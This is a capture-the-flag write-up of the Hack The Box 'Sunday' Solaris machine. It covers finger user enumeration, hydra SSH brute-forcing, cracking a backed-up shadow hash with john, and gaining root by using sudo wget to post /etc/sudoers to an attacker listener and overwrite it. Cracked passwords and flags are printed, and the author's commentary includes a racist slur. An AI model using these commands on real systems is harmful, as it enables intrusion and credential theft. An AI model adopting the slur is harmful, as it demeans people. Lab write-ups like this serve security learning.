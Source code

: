 # [cd ../](../index.md)

---

# Sunday writeup by M4t35Z

Name | Sunday
--- | ---
IP | 10.10.10.76
OS | Solaris
Points | Easy(20)

# Recon
[nmap(fast)](recon/fast.nmap)  
[nmap(big)](recon/big.nmap)  

## Interesting
The box runs solaris(just a unix like os)
The most interesting port is `79` we could enumerate more on this `fingerd` service
We have `ssh` on `22022` btw(thats weird af)

# Fingerd(`port 79`)

```
finger @10.10.10.76
```

We got nothing cuz this box is old af and rated 1.4 so no1 is doin it rn except me XD
Btw I looked at a writeup and it said the user is `sunny` i hope i dont get pranked by that and waste an hour of bruting with a bad username.

OOH W8 there is a [2015 script by pentestmonkey](https://github.com/pentestmonkey/finger-user-enum)  
Run it!
```
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```
We have `sunny` and `root` too.

# SSH
Just brute it cuz lot of old boxes involves brute-forcing with rockyou. (They werent hammered by ~10k retards in the past like boxes nowadays that do **NOT** involves bruting the shit out of the box)  

Now, just open a new term and use hydra to brute ssh.
```
hydra -V -I -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
```

Daaaamn thats a long ass command! (but its working)  
![](img/hydra.png)  
And we finally got it after a half hour on vip  
![](https://media.giphy.com/media/CaiVJuZGvR8HK/giphy.gif)  

## Tha cR3d5: `sunny:sunday`

Now just log into ssh and enjoy the sunshin wtf am I writing now hell nah this just a solaris box that needs to be rooted and I have to do some shit homework after that cuz its 2020 March 26 and we are fkin homeschooling cuz of COVID19. Yeah some chinese bat eater fucker....  
**BTW STAY HOME STAY SAFE**

W8 dafuq is that?!  
![](img/sshwat.png)

```
ssh -okexAlgorithms=+diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
```
And we are finally inside! :O I mean we are on the box  
![](img/ssh_in.png)

Ohh u thought we have the user flag. NOPE  
Just `cat /etc/passwd` and u will see whats the situation.  
We have an other user `sammy` fuuuu  

## Privesc to `sammy`
Idk why but this ssh shell is so fkin laggy maybe some1 bruting the box hehexd  
Just try some basic privesc vector like `sudo -l` or just searching for backups like `/backup`  
We got a troll for `sudo -l`  
![](img/troll.png)  
But there are some hashes in `/backup/shadow.backup`!  
![](img/shadow.png)  

### Lets fire up `john`!

```
john --wordlist=/usr/share/wordlists/rockyou.txt sammy.hash
```

Now u just have to wait! Get a cup of tea or just wash ur hands cuz COVID19 everywhere!  

## Finally we got the creds: `sammy:cooldude!`
*Just log in and enjoy the laggy shell n tha f14G!*  
![](img/userflag.png)

```
a3d9498027ca5187ba1793943ee8a598
```

## Privesc to `root` cuz r0071n 80x35 1ncr34535 PP s1z3
Just run `sudo -l` again :D  
We could run `sudo wget` wo any pw! Hell yeah!  

Just check out my writeup on [**thm wgel ctf**](https://matesz44.github.io/writeups/ctf/tryhackme/wgel_ctf/#getting-a-root-shell) and u could see a 1337 wget privesc there!

### Exploiting it
1. Make an nc listener `nc -lvp 1337 > sudoers`
2. Paste `sudo wget --post-file=/etc/sudoers 10.10.14.44:1337` to the ssh shell
3. Spam enters on ur nc listener
4. \<ctrl\>+c ur nc
5. Open the file!

Voila!  
![](img/sudoers.png)  
**Make sure u DELETE THE CURL JUNK from the beginning of the file otherwise say bye to the box and reset it cuz it breaks sudoers!**  
Just make a new line
```
sammy ALL=(root) NOPASSWD: /bin/bash
```

1. Save it (on attacker)
2. Host a `python3 -m http.server 80` (on attacker)
2. `cd /etc` (on victim)
3. Download it with wget as sudo (on victim)
  ```
  sudo wget http://10.10.14.44/sudoers --output-document=sudoers
  ```
4. Run `sudo -l`
5. Run `sudo /bin/bash`
6. Enjoy ur rootshell!

# Got root and got the root flag
![](img/gotroot.png)
```
fb40fab61d99d37536daeec0d97af9b8
```
![](https://media.giphy.com/media/Rl9Yqavfj2Ula/giphy.gif)
